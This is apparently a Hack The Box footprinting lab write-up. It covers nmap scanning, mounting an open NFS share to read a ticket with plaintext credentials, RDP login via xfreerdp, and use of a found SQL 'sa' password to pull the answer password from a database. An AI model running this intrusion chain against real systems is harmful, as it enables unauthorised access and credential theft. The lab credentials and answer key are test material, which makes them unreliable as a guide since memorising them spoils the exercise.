 
Enumerate the server carefully and find the username "`HTB`" and its password. Then, submit this user's password as the answer.

### Nmap
```bash
nmap -sV -sC 10.129.158.159
```

Output:
```bash
PORT     STATE SERVICE       VERSION
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WINMEDIUM
|   NetBIOS_Domain_Name: WINMEDIUM
|   NetBIOS_Computer_Name: WINMEDIUM
|   DNS_Domain_Name: WINMEDIUM
|   DNS_Computer_Name: WINMEDIUM
|   Product_Version: 10.0.17763
|_  System_Time: 2024-11-16T03:34:57+00:00
| ssl-cert: Subject: commonName=WINMEDIUM
| Not valid before: 2024-11-15T02:29:35
|_Not valid after:  2025-05-17T02:29:35
|_ssl-date: 2024-11-16T03:35:05+00:00; +56s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 55s, deviation: 0s, median: 55s
| smb2-time: 
|   date: 2024-11-16T03:34:57
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

We Can use nmap to Enumerate RPC farther
```bash
nmap -p 2049 --script rpcinfo <target>
```
From the output we see that many version of RPC program are running. and there is NFS mount daemon as well. we will use the `showmount` command to see the mounted shares.
```bash
showmount -e $ip
```

Output
```bash
Export list for 10.129.158.159:
/TechSupport (everyone)
```

we see a shared directory `TechSupport` that everyone can access.
#### [[NFS Network File System]] 
Since we have a directory to mount we can use NFS to mount the share from a remote server to a local directory on Linux system.
```bash
mkdir target-nfs
cd target-nfs
sudo mount -t nfs 10.129.158.159:/ target-nfs/ -o nolock
cd target-nfs
sud ls -la
sudo ls -la TechSupport
sudo cat TechSupport/ticket4238791283782.txt 
```

`-t nfs` Specifies the type of filesystem to mount in this case `nfs` indicates that the filesystem is an `NFS` share

**`$ip:/`**:
- `$ip` is a placeholder for the **IP address** or **hostname** of the remote NFS server.
- `:/` specifies the **root directory** of the NFS export on the server. Replace `$ip` with the actual IP address or hostname of the server.

- **`./target-NFS/`**:
    - This is the **local mount point**, i.e., the directory on the local system where the NFS share will be mounted.
    - Replace `./target-NFS/` with the path to an existing directory. If the directory does not exist, it must be created first (e.g., using `mkdir`).
    
- **`-o nolock`**:
    - `-o` specifies options for the mount operation.
    - `nolock` disables NFS file locking, which can sometimes be necessary in environments where the `rpc.statd` or `lockd` daemons are not running (e.g., minimal or containerized environments).
Output of the `cat`
```bash
sudo cat TechSupport/ticket4238791283782.txt
Conversation with InlaneFreight Ltd

 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"

.......
```
We got the username and password now we can connect to 3389 RDP using `xfreerdp`
```bash
xfreerdp /cert:ignore /u:alex /p:"lol123!\mD" /v:10.129.158.159
```
We we'll get a windows connection window where we can interact with database.
![[Pasted image 20241115230238.png]]After looking around on the files and directories i found a file called `important`
![[Pasted image 20241115230633.png

Looks like a password  `sa:87N1ns@slls83`
after running the Microsfot SQL Server on desktop with administrator it requires a passwod and using the password about for `sa` will let us into the database.
![[Pasted image 20241115230900.png]]
And we are in. Now we just need to query the database for the user and password and submited.
![[Pasted image 20241115231055.png]]
By expanding the `accounts` > `Tables` > `dbo.devsacc` and write click and `select Top 1000 row` and scroll down to find user `HTB` and password `lnch7ehrdn43i7AoqVPK4zWR`. 
![[Pasted image 20241115231916.png]]
